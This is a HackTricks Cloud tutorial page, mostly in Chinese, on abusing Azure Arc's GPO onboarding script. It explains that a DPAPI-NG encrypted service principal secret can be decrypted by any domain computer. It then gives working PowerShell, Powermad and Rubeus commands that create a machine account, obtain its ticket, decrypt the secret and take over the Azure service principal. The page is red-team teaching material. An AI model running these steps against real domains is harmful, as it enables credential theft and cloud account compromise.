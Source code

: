 # Az - Arc vulnerable GPO Deploy Script

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### Identifying the Issues

Azure Arc 允许通过组策略对象方法将新的内部服务器（加入域的服务器）集成到 Azure Arc 中。为此，Microsoft 提供了启动入驻程序所需的部署工具包。在 ArcEnableServerGroupPolicy.zip 文件中，可以找到以下脚本：DeployGPO.ps1、EnableAzureArc.ps1 和 AzureArcDeployment.psm1。

执行时，DeployGPO.ps1 脚本执行以下操作：

1. 在本地域中创建 Azure Arc 服务器入驻 GPO。
2. 将 EnableAzureArc.ps1 入驻脚本复制到为入驻过程创建的指定网络共享中，该共享还包含 Windows 安装程序包。

运行此脚本时，系统管理员需要提供两个主要参数：**ServicePrincipalId** 和 **ServicePrincipalClientSecret**。此外，还需要其他参数，例如域、托管共享的服务器的 FQDN 和共享名称。还必须向脚本提供租户 ID、资源组和其他必要信息等详细信息。

在指定共享的 AzureArcDeploy 目录中使用 DPAPI-NG 加密生成一个加密的秘密。加密的秘密存储在名为 encryptedServicePrincipalSecret 的文件中。可以在 DeployGPO.ps1 脚本中找到证据，其中通过调用 ProtectBase64 以 $descriptor 和 $ServicePrincipalSecret 作为输入来执行加密。描述符由域计算机和域控制器组 SID 组成，确保 ServicePrincipalSecret 只能由域控制器和域计算机安全组解密，如脚本注释中所述。
```powershell
# Encrypting the ServicePrincipalSecret to be decrypted only by the Domain Controllers and the Domain Computers security groups
$DomainComputersSID = "SID=" + $DomainComputersSID
$DomainControllersSID = "SID=" + $DomainControllersSID
$descriptor = @($DomainComputersSID, $DomainControllersSID) -join " OR "
Import-Module $PSScriptRoot\AzureArcDeployment.psm1
$encryptedSecret = [DpapiNgUtil]::ProtectBase64($descriptor, $ServicePrincipalSecret)
```
### Exploit

我们有以下条件：

1. 我们已经成功渗透了内部网络。
2. 我们有能力在Active Directory中创建或控制计算机帐户。
3. 我们发现了一个包含AzureArcDeploy目录的网络共享。

在AD环境中获取计算机帐户有几种方法。最常见的方法之一是利用计算机帐户配额。另一种方法涉及通过脆弱的ACL或各种其他错误配置来破坏计算机帐户。
```powershell
Import-MKodule powermad
New-MachineAccount -MachineAccount fake01 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```
一旦获得机器账户，就可以使用该账户进行身份验证。我们可以使用带有 netonly 标志的 runas.exe 命令，或者使用 Rubeus.exe 进行 pass-the-ticket。
```powershell
runas /user:fake01$ /netonly powershell
```

```powershell
.\Rubeus.exe asktgt /user:fake01$ /password:123456 /prr
```
通过将计算机帐户的 TGT 存储在内存中，我们可以使用以下脚本解密服务主体密钥。
```powershell
Import-Module .\AzureArcDeployment.psm1

$encryptedSecret = Get-Content "[shared folder path]\AzureArcDeploy\encryptedServicePrincipalSecret"

$ebs = [DpapiNgUtil]::UnprotectBase64($encryptedSecret)
$ebs
```
或者，我们可以使用 [SecretManagement.DpapiNG](https://github.com/jborean93/SecretManagement.DpapiNG)。

此时，我们可以从存储在与 encryptedServicePrincipalSecret 文件相同的网络共享上的 ArcInfo.json 文件中收集连接到 Azure 所需的其余信息。该文件包含以下详细信息：TenantId、servicePrincipalClientId、ResourceGroup 等。凭借这些信息，我们可以使用 Azure CLI 以被攻陷的服务主体身份进行身份验证。

## 参考文献

* [https://xybytes.com/azure/Abusing-Azure-Arc/](https://xybytes.com/azure/Abusing-Azure-Arc/)

{% hint style="success" %}
学习和实践 AWS Hacking：<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
学习和实践 GCP Hacking：<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram 群组**](https://t.me/peass) 或 **在** **Twitter** 🐦 **上关注我们** [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}

